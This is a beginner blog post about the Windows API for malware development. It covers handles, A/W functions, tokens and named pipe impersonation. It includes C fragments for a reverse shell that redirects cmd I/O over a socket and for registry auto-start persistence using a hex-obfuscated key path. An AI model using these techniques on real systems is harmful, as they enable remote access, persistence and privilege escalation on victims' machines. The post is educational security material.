 ```yaml
---
layout: post
title:  "Using and Abusing the Windows API (For Complete Beginners)"
date:   2024-12-26 15:00:00 -0600
categories: cybersecurity maldev networking
---
```


# Importance of the Windows API

The Windows API is central to developing tools and malware for machines running Windows. A basic understanding is crucial to learning cybersecurity and reverse engineering, I will run you through things I wish that I knew before I jumped into the documentation. 📚 

> This is definitly more of an absolute beginner's guide. If you already understand basics like W vs A functions, Handles, Access Tokens, etc., there is probably not much for you here.

# Handles and Objects

Handles appear everywhere in the API, especially when you are developing or reverse engineering malware. Creating processes, injecting into processes, duplicating tokens, changing registry keys, these are all things that require handles.

Handles refer to objects, system *things* that a programmer might want to interact with like tokens, processes, etc.

Instead of rewording it, here is the exact explaination from the [Windows Documentation](https://learn.microsoft.com/en-us/windows/win32/sysinfo/handles-and-objects).

>An object is a data structure that represents a system resource, such as a file, thread, or graphic image. Your application can't directly access object data, nor the system resource that an object represents. Instead, your application must obtain an object handle, which it can use to examine or modify the system resource. Each handle has an entry in an internally maintained table. Those entries contain the addresses of the resources, and the means to identify the resource type.

Handles are of type `HANDLE`.

# Quick Note on Windows functions.

If you take a look at the Windows docs, you will find that almost every function has both an A and W version, like `CreateProcessA` vs `CreateProcessW`. These two functions will do the same thing, however functions labeled with A use ANSI strings for input and output (1 Byte `char` strings), while W functions us Wide Strings for input and output (2 Byte `wchar_t` strings). Both types will be useful to us so keep track of them.

When writing wide strings, preceed them with an uppercase L.

{% highlight c %}
wchar_t message[] = L"Hello World!";
{% endhighlight %}

# Baby's First Reverse Shell

A great point that easily uses the Windows API for fun and profit is always some form of reverse shell. Look at the following example.

{% highlight c %}
SOCKET sockfd; // Lets assume we already have an open socket to communicate on.

STARTUPINFO sInfo;
memset(&sInfo, 0, sizeof sInfo);
sInfo.cb = sizeof sInfo;
sInfo.hStdInput = (HANDLE)sockfd;
sInfo.hStdOutput = (HANDLE)sockfd;
sInfo.hStdError = (HANDLE)sockfd;
sInfo.dwFlags = STARTF_USESTDHANDLES;

PROCESS_INFORMATION pInfo;

CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sInfo, &pInfo);
{% endhighlight %}

Here we do a few things. First, we assume that he already have an open SOCKET from WinSock. We then create a `STARTUPINFO` for us to redirect the shell's input, output, and error handles. Typically, these are the console input buffer and then the console screen buffer. However, the open socket can also be used like a handle to replace those buffers. The created shell process will esentially `send` all of the output and `recv` all of the input. We also create a `PROCESS_INFORMATION` to store information about our created process, including its handle. We then call `CreateProcessA` to open a CMD with our redirected I/O. Fun stuff! 🔥

# Registry Hijinks

As we think of super cool features to add to our super cool malware, we might at some point come into contact with the Windows Registry. Some of you might already be aware that the Registry holds values in a heirarchical tree of keys. These values, depending on the key that they are in, configure useful Windows behavior. Behavior like disabling Windows Defender and placing programs in auto-start. Here is another example using what we already know to place the currently running process into auto-start.

{% highlight c %}

HKEY key;
LSTATUS rv;

TCHAR* dir = (TCHAR*)malloc(MAX_PATH * sizeof(TCHAR));
GetModuleFileNameW(NULL, dir, 100);

wchar_t path[] = { 0x0053, 0x004f, 0x0046, 0x0054, 0x0057, 0x0041, 0x0052, 0x0045, 0x005c, 0x004d, 0x0069, 0x0063, 0x0072, 0x006f, 0x0073, 0x006f, 0x0066, 0x0074, 0x005c, 0x0057, 0x0069, 0x006e, 0x0064, 0x006f, 0x0077, 0x0073, 0x005c, 0x0043, 0x0075, 0x0072, 0x0072, 0x0065, 0x006e, 0x0074, 0x0056, 0x0065, 0x0072, 0x0073, 0x0069, 0x006f, 0x006e, 0x005c, 0x0052, 0x0075, 0x006e, 0x0000 };

rv = RegOpenKeyExW(HKEY_LOCAL_MACHINE, path, 0, KEY_WRITE, &key);

if (rv == ERROR_SUCCESS) {
	if (RegSetValueExW(key, L"Super Cool Stuff", 0, REG_SZ, (LPBYTE)dir, (lstrlen(dir) + 1) * sizeof(TCHAR)) != ERROR_SUCCESS) {
		pRegCloseKey(key);
	}
	else {
		pRegCloseKey(key);
		return;
	}
}

{% endhighlight %}

> TCHAR is the same as wchar_t, they are both 2 bytes.

Here we use several Windows API functions to achieve our end goal. The path variable does not need to the look like this, it is just a stack based string in hex for obfuscation purposes. However, if you were to attempt the function above on a normal user account, nothing would happen. In order for many parts of the Windows API to function we need the proper **tokens**.

# Security and Tokens + 1 Million Other Windows Things

Windows verifies security credentials for a process and thread. More accurately, there exists both a process and thread token that can both be used. There is not really a concrete use for these; many different functions use these tokens in different ways.

For example, the function `CreateProcessA` will create a new process in the context of the calling process. This function also leads into another great point about *impersonation*. If you go and read the documentation for `CreateProcessA`, you will see a note that it will not use the current impersonation token.

# Duplicating Tokens and Impersonation

Some parts of the Windows API become very useful to us as we continue on our maldev journey. A technique you may have heard of for privelege escalation is Named Pipe Impersonation. While I will not fully explain pipes, they are typically used so that two processes can share information between eachother. There exists a function that allows a named pipe server to assume the token of the client process, or in other words, to *impersonate* that client.

Functions like `DuplicateTokenEx` can then be used to create new *primary* tokens for a process. There exist other API methods to set the thread and process tokens, and tokens also have a vast amount of security configuration options as well. If you are more interested, the Windows Docs are the best way to learn about tokens.

# Key Takeaways

While it would be impossible to show the magnitude of the Windows API in a single article, this is definitely a good start. The best way to learn about about it, in my opinion, is to just build applications that use it! Go read the docs [here](https://learn.microsoft.com/en-us/windows/apps/).